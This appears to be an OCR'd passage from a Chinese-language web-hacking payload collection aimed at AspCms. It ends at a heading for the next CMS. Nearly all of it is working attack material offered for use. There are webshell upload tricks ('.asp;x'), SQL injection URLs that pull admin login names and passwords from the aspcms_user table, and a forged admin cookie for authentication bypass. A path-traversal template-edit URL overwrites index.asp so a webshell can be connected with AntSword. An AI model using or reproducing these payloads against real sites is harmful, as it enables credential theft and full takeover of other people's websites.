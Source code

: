     后台登录地址：/admin/login.asp

    后台拿 shell

    1. 直接上传`.asp;x`
    2. 系统配置信息
    3. 模版管理新建 `1.asp` 模板，内容写马的内容.
    ```

**AspCms2.1.4 GBK 版,未验证权限、且存在注入漏洞**
- POC | Payload | exp
    ```
    admin/_content/_About/AspCms_AboutEdit.asp
    ```
    ```
    http://www.xxx.com/admin/_content/_About/AspCms_AboutEdit.asp?id=19 and 1=2 union select 1,2,3,4,5,loginname,7,8,9,password,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from aspcms_user where userid=1
    ```

**AspCms2.0未验证权限，且存在注入漏洞**
- POC | Payload | exp
    ```
    admin/_content/_About/AspCms_AboutEdit.asp?id=19
    ```
    - 表名：aspcms_user
    - 列名：loginname、password

    ```
    http://www.xxx.com/admin/_content/_About/AspCms_AboutEdit.asp?id=19 and 1=2 union select 1,2,3,4,5,loginname,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,password,25,26,27,28,29,30,31,32,33,34,35 from aspcms_user where userid=1
    ```

**Cookies 欺骗**
- POC | Payload | exp
    ```
    cookies:username=admin; ASPSESSIONIDAABTAACS=IHDJOJACOPKFEEENHHMJHKLG; LanguageAlias=cn; LanguagePath=%2F; languageID=1; adminId=1; adminName=admin; groupMenu=1%2C+70%2C+10%2C+11%2C+12%2C+13%2C+14%2C+20%2C+68%2C+15%2C+16%2C+17%2C+18%2C+3%2C+25%2C+57%2C+58%2C+59%2C+2%2C+21%2C+22%2C+23%2C+24%2C+4%2C+27%2C+28%2C+29%2C+5%2C+49%2C+52%2C+56%2C+30%2C+51%2C+53%2C+54%2C+55%2C+188%2C+67%2C+63%2C+190%2C+184%2C+86%2C+6%2C+32%2C+33%2C+34%2C+8%2C+37%2C+183%2C+38%2C+60%2C+9; GroupName=%B3%AC%BC%B6%B9%DC%C0%ED%D4%B1%D7%E9
    ```

**进入后台后GetShell**
- POC | Payload | exp
    所有版本存在后台编辑风格 可以修改任意文件，获取webshell就很简单了
    ```
    http://www.xxx.com/AspCms_TemplateEdit.asp?acttype=&filename=../../../index.asp
    ```
    插入`asp;x`文件蚁剑连接即可。

---

### dedeCMS
